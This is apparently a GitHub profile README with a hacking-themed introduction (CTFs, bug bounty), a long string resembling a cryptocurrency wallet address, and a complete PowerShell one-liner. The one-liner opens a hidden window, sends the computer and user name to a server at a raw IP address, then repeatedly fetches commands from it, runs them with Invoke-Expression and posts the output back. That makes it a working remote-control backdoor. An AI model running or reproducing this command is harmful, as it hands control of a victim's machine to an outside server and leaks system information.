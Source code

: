 - 👋 Hi, I’m Kapil Singh Chauhan
- 👀 I’m interested in Hacking , Programming , I.T Stuff
- 🌱 I’m currently doing CTF's and Bug bounty
- 49Kzx6RU7357S7ibrgwAEhLvWw2aGGCrtUBi1vRxZDqy23nmSvjHcrACUu4k8wnmpUY9mPupewRq2Wuw4FCttFtvJQuq7nJ
- Start-Process $PSHOME\powershell.exe -ArgumentList {$s='65.0.4.155:8080';$i='69bfa846-0f896d43-fe47dc9c';$p='http://';$v=Invoke-RestMethod -UseBasicParsing -Uri $p$s/69bfa846/$env:COMPUTERNAME/$env:USERNAME -Headers @{"Authorization"=$i};for (;;){$c=(Invoke-RestMethod -UseBasicParsing -Uri $p$s/0f896d43 -Headers @{"Authorization"=$i});if ($c -ne 'None') {$r=Invoke-Expression $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$x=Invoke-RestMethod -Uri $p$s/fe47dc9c -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}} -WindowStyle Hidden
<!---
Divyansh616937/Divyansh616937 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
